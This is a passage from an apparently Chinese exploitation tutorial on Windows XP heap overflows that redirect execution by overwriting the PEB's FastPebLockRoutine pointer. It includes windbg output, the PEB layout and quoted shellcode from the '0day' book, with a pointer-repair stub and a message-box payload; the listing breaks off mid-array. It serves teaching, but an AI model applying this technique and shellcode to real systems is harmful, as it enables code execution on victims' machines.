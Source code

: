 ExitProcess有同步线程的动作,这个动作由RtlEnterCriticalSection()和RtlLeaveCriticalSection()来完成.这两个函数我们称为临界区函数.跟信号量和锁类似,临界区是一种轻量级机制,在某一时间内,只能由一个线程来执行某个代码段.

调用这两个临界区函数会先从PEB的0x20、0x24偏移处寻找函数指针.我们现在需要做的就是覆盖这两个位置的指针.

在windbg中执行`!peb`即可看到peb的位置.

```
0:000> !peb
PEB at 7ffdf000
    InheritedAddressSpace:    No
    ReadImageFileExecOptions: No
    BeingDebugged:            Yes
    ImageBaseAddress:         00400000
    Ldr                       00241e90
    Ldr.Initialized:          Yes
    Ldr.InInitializationOrderModuleList: 00241f28 . 00241fd0
    Ldr.InLoadOrderModuleList:           00241ec0 . 00241fc0
    Ldr.InMemoryOrderModuleList:         00241ec8 . 00241fc8
----------------------
typedef struct _PEB
{
    UCHAR InheritedAddressSpace; // 00h
    UCHAR ReadImageFileExecOptions; // 01h
    UCHAR BeingDebugged; // 02h
    UCHAR Spare; // 03h
    PVOID Mutant; // 04h
    PVOID ImageBaseAddress; // 08h
    PPEB_LDR_DATA Ldr; // 0Ch
    PRTL_USER_PROCESS_PARAMETERS ProcessParameters; // 10h
    PVOID SubSystemData; // 14h
    PVOID ProcessHeap; // 18h
    PVOID FastPebLock; // 1Ch
    PPEBLOCKROUTINE FastPebLockRoutine; // 20h
    PPEBLOCKROUTINE FastPebUnlockRoutine; // 24h
} PEB, *PPEB;

```

Peb->FastPebLockRoutine指针的内容为RtlEnterCriticalSection函数的地址,Peb->FastPebUnlockRoutine为RtlLeaveCriticalSection()地址,既0x20偏移、0x24偏移.

**ps:在xp sp1之前,PEB的位置是固定的,sp2基址浮动,2003没有FastPebLockRoutine和FastPebUnlockRoutine.**

因为shellcode也会调用ExitProcess,所以会shellcode会反复执行,应该在shellcode的头部恢复覆盖掉的值.

0day书中的代码:

```
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90"    // nop
"\x90\x90\x90\x90\x90"    // nop
            // repaire the pointer which shooted by heap shooting
"\xb8\x20\xf0\xfd\x7f"    // mov eax,7ffdf020
"\xbb\x03\x91\xf8\x77"    // mov ebx,77F89103 this addr may related to OS patch version
"\x89\x18"                // mov dword ptr ds:[eax],ebx
            // 168 bytes popwindow shellcode
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75"
"\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE"
"\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03"
"\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53"
```